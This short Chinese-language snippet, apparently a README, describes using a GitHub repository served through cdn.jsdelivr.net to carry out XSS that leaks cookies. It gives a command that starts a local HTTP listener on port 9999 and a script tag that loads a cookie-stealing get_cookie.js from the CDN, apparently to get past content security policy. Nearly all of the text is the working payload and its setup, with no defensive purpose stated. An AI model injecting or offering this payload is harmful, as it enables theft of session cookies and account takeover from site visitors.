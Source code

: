 利用cdn.jsdelivr.net托管仓库造成XSS泄露cookie  
  
    python3 -m http.server 9999  
    https://cdn.jsdelivr.net/gh/wedidaprettygoodjobsofar/csp_bypass@1055fb0f4da637522aa54472e0c288060651b513/get_cookie.js  
    <script src="https://cdn.jsdelivr.net/gh/wedidaprettygoodjobsofar/xss_script@1055fb0f4da637522aa54472e0c288060651b513/get_cookie.js"></script>  
